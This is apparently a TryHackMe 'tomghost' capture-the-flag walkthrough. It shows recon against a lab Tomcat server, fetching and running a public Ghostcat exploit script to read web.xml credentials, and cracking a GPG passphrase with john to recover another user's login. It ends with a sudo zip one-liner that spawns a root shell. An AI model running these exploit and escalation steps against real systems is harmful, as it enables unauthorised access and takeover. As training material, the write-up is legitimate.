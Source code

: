 ```yaml
---

title: Walkthrough - tomghost
published: true
---
```


Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.

[https://tryhackme.com/room/tomghost](https://tryhackme.com/room/tomghost)

* * *

## Path to Machine

- ``nmap -T4 -p- 10.10.124.33 -vvv``

```shell
22/tcp   open  ssh
53/tcp   open  tcpwrapped syn-ack ttl 61
8080/tcp open  http       syn-ack ttl 61 Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
```

- Port 8080 has an apache tomcat container
- ``gobuster dir -u http://10.10.124.33:8080/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 100 -x txt,php,html --no-error``
- ``locate 49716``
- lets check out the pdf and learn about the exploit

## Ghostcat Exploitation

- ``wget https://raw.githubusercontent.com/00theway/Ghostcat-CNVD-2020-10487/master/ajpShooter.py``
- this will read the XML file containing a users's ssh key
- ``python3 ajpShooter.py http://10.10.35.112:8080 8009 /WEB-INF/web.xml read``

![](/assets/tomghost01.png)

- skyfuck:8730281lkjlkjdqlksalks

- ``scp skyfuck@10.10.35.112:/home/skyfuck/* .`` to get the gpg file so we can use gpg2john to create a hash from the asc file.
- ``john --wordlist=/usr/share/seclists/Passwords/rockyou.txt hash`` = ``alexandru        (tryhackme)``

Now that we have the passphrase to decrtypt the gpg file, we can import the gpg key and then decrypt it.

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/tomghost]
└─$ gpg --import ./tryhackme.asc                                                     
gpg: key 8F3DA3DEC6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
```

and then...

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/tomghost]
└─$ gpg --decrypt credential.pgp 
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j  
```

Now we have the second user name and user credentials so we can ssh to login and then escalate to become root.


```shell
merlin@ubuntu:/tmp$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

So we can run this to get root:

```shell
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

* * * 

## User.txt

- ``cat /home/merlin/user.txt``

* * * 

## Root.txt

- ``cat /root/root.txt``

* * * 